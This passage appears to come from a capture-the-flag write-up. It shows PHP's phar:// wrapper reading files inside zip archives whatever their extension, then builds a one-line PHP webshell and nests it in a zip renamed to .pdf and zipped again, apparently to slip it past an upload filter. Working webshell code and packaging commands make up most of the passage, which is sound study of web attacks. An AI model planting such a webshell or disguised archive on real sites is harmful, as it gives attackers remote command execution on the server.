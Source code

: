     php > echo file_get_contents('phar://test.zip/test.txt');
    this is a test
    

And it returns true for `file_exists`:

    
    
    php > if (file_exists('phar://test.zip/test.txt')) { echo "exists"; }
    exists
    

It also doesn’t matter what the extension is. If I rename `test.zip` to
`test.pdf`:

    
    
    oxdf@hacky$ cp test.zip test.pdf
    

It still works the same:

    
    
    php > echo file_get_contents('phar://test.pdf/test.txt');
    this is a test
    php > if (file_exists('phar://test.pdf/test.txt')) { echo "exists"; }
    exists
    

#### Exploit Zipping

I’ll create a simple webshell, `shell.php`:

    
    
    <?php system($_REQUEST['cmd']); ?>
    

I’ll zip it into a file called `shell.pdf`:

    
    
    oxdf@hacky$ zip shell.pdf shell.php 
      adding: shell.php (stored 0%)
    oxdf@hacky$ unzip -l shell.pdf
    Archive:  shell.pdf
      Length      Date    Time    Name
    ---------  ---------- -----   ----
           35  2024-01-11 14:26   shell.php
    ---------                     -------
           35                     1 file
    

I’ll put that into a zip archive called `shell.zip`:

    
    
    oxdf@hacky$ zip shell.zip shell.pdf 
      adding: shell.pdf (deflated 34%)
    oxdf@hacky$ unzip -l shell.zip 
    Archive:  shell.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
          203  2024-01-11 14:26   shell.pdf
    ---------                     -------
          203                     1 file
    